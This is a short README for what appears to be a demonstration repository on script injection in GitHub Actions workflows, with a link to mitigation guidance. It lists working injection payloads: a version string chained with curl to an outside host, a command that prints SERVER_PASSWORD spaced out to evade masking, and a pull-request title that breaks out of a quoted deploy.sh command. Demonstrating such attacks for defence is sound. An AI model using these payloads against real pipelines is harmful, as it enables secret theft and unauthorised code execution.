


inputs-demo
===

:closed_lock_with_key: [ Classification: public ]

Repository to demonstrate script injection attacks in GitHub workflows.

# Injection

## Input

Trigger deployment worklow with "modified" version info

`1.2.3 && curl https://www.bhs-world.com`

**Additional**: Steal the secret:

`1.2.3 && echo $SERVER_PASSWORD | sed 's/./& /g'`

## Title in pullrequest

Create pullrequest with modified title

`deploy.sh" && curl https://www.bhs-world.com && echo "`

# Mitigation

See [Security hardening for GitHub Actions](https://docs.github.com/en/enterprise-server@3.12/actions/security-guides/security-hardening-for-github-actions?learn=getting_started&learnProduct=actions#good-practices-for-mitigating-script-injection-attacks)
